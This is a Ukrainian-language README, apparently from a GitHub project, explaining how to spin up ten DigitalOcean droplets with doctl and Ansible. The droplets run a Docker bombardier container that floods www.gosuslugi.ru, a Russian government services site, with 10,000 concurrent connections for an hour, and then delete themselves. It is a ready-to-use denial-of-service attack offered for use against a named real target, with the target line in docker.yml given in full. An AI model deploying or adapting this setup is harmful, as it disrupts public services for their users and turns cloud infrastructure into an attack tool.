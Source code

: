 Інструкція з розгортання 10-ти дроплетів в хмарі digitalocean

1. Встановіть Linux у VirtualBox або LXC контейнер. https://www.youtube.com/watch?v=-hNMW1PMq4w (Дай Бог здоров'я тобі, Кірюха)
2. Зарееструйтеся в DigitalOcean https://www.websiteplanet.com/ru/blog/%D0%BA%D0%B0%D0%BA-%D0%B7%D0%B0%D1%80%D0%B5%D0%B3%D0%B8%D1%81%D1%82%D1%80%D0%B8%D1%80%D0%BE%D0%B2%D0%B0%D1%82%D1%8C-%D0%B0%D0%BA%D0%BA%D0%B0%D1%83%D0%BD%D1%82-%D0%BD%D0%B0-%D1%81%D0%B5%D1%80%D0%B2/
3. Створіть та додайте ssh-key https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-2
4. Встановіть та зареєструйте doctl (https://docs.digitalocean.com/reference/doctl/how-to/install/)
5. Встановіть git:   sudo yum install git
6. Встановіть ansible https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-on-rhel-centos-or-fedora
7. скопіюйте репозиторій git clone git@github.com:Pingva74/digitalocean-helper.git
8. надайте права виконання файлу do.ddos.sh як що їх немає: chmod 755 do.ddos.sh

За замовчанням ви можете створити 10 віртуальних машин вартістю $5 на місяць, цього досить.
Невеличке пояснення що ви створюєте, команда виглядає так:

doctl compute droplet create --region tor1 --image centos-7-x64 --size s-1vcpu-1gb --ssh-keys 30188579  zero0

Нас в ній цікавить --region tor1 - регіон в якому буде створений дроплет, перелік регіонів можна отримати так: 
doctl compute region list

отримаете приблизно такий перелік:

doctl compute region list
Slug    Name               Available
nyc1    New York 1         true
sfo1    San Francisco 1    false
nyc2    New York 2         false
ams2    Amsterdam 2        false
sgp1    Singapore 1        true
lon1    London 1           true
nyc3    New York 3         true
ams3    Amsterdam 3        true
fra1    Frankfurt 1        true
tor1    Toronto 1          true
sfo2    San Francisco 2    false
blr1    Bangalore 1        true
sfo3    San Francisco 3    true

--ssh-keys 30188579 - ключ доступу до дроплета, отримати перелік ключів можна так: doctl compute ssh-key list
отримаемо схожу відповідь:

doctl compute ssh-key list
ID          Name        FingerPrint
30245974    oracle      73:dd:87:ed:05:40:58:26:25:1d:7d:b2:b0:5f:ab:1e
30188579    home        44:10:69:cd:39:cd:ac:01:04:92:a0:78:37:77:29:9b

Нам треба вказати --ssh-keys <ID> Вашого ключа, вони індивідуальні.
zero0 - це ім'я дроплету.
крім того можемо відредагувати файл docker.yml
нас цікавить тільки рядок

 shell: "docker run -ti --rm alpine/bombardier -c 10000 -d 3600s -l www.gosuslugi.ru"

де
-с 10000 - кількість одночасно надісланих запитів
-d 3600s - час життя контейнера в секундах (можливо міняти на свій розсуд)
-l www.gosuslugi.ru - сайт, який вам набрид.

Після завершення роботи контейнера, всі дроплети видаляться автоматично.
Користуйтеся з задоволенням, Слава Україні!
